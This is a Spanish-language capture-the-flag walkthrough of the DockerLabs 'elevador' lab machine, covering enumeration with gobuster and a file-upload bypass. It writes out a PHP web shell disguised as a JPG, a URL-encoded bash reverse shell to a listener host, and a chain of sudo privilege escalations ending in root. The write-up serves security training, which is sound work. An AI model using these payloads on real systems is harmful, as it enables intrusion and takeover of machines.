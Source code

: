 nmap:  80

![image](https://github.com/user-attachments/assets/206a9c1a-9a66-4136-b0f9-050aa3a76ad0)


---
dentro de la pagina podemos ver que nos da un mensaje al abrir el ascensor:

![image](https://github.com/user-attachments/assets/43924d93-9367-4f22-9921-583d71be6e11)

![image](https://github.com/user-attachments/assets/7e847733-9588-4015-94c3-874fb076e3e1)

al hacer una ataque de fuerza bruta a los directorios  nos mostrara un "themes",

      gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,txt -k

![image](https://github.com/user-attachments/assets/6b57711b-3b7a-4c5a-9ec9-8278ccd4ea80)


ahora si hacemos otra vez un gobuster pero agregando el "themes" 

      gobuster dir -u http://172.17.0.2/themes -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,txt -k


y nos dará algunos importantes

![image](https://github.com/user-attachments/assets/3582ef9d-7e61-442d-80d0-9124e65d5e37)


si ingresamos al primero o sea al uploads nos mandara a una subida de archivos

![image](https://github.com/user-attachments/assets/a369a585-4f64-44ec-aea7-50398bcbd6e1)


como también me dio: archivo.html nos vamos ahí y vemos que podemos subir archivos pero solo archivos JPG

![image](https://github.com/user-attachments/assets/48ab9e59-7a3a-4580-a1df-2d9ba76fd769)


como solo deja subir archivos "jpg" modificamos un archivo 
> nano shell.php.jpg

dentro tendrá este código:

    - <?php system($_GET['cmd']); ?>

vemos que se subió

![image](https://github.com/user-attachments/assets/1e4b7b39-2209-4d3e-97da-5376f04cf198)

 presionamos el archivo que nos muestra y veremos que no hay nada pero en la URL la modificamos para que quede así:
 
   > 172.17.0.2/themes/uploads/675712b70a259.jpg?cmd=whoami

![image](https://github.com/user-attachments/assets/22fedb8d-23f2-4bda-804c-dccda91b64da)

nos mostrara "www-data" o sea que la vulnerabilidad esta, así que modificamos la terminal con una bash y colocamos el terminal en escucha
dejamos la terminal asi:

> 172.17.0.2/themes/uploads/675712b70a259.jpg?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/172.17.0.1/443%200%3E%261%22

![[conexion.png]]

y ahora dentro si hacemos un "sudo -l" vemos que podemos escalar por "env", 
![[env.png]]
la buscamos: https://gtfobins.github.io/gtfobins/env/

como se que hay otros usuarios pobre y funciono el escalado con daphne:
> sudo -u daphne /usr/bin/env /bin/sh
![[usuario1.png]]

y somos el usuario daphne

al hacer sudo -l da: "ash" la buscamos: https://gtfobins.github.io/gtfobins/ash/

ahora lanzamos asi:
> sudo -u vilma /usr/bin/ash
![[dockerlabs/facil/elevador/usuario2.png]]

y somos vilma

ahora al hacer sudo -l da que es ruby buscamos donde mismo y lanzamos asi:
> sudo -u shaggy /usr/bin/ruby -e 'exec "/bin/sh"'
![[dockerlabs/facil/elevador/usuario3.png]]

ahora somos shaggy y entonces ahora buscamos como escalar y aparece "lua"

lanzamos el comando así:
> sudo -u fred /usr/bin/lua -e 'os.execute("/bin/sh")'

![[usuario4.png]]

somos fred

podemos escalar con gcc y donde mismo buscamos y lanzamos el comando:
> sudo -u scooby /usr/bin/gcc  -wrapper /bin/sh,-s .

![[usuario5.png]]

somos scooby

ahora al hacer sudo -l podemos  ver que se escala por "sudo", modifico  el codigo para que se vea de esta forma:
> sudo -u root /usr/bin/sudo /bin/bash

![[dockerlabs/facil/elevador/root.png]]

y somos root! 
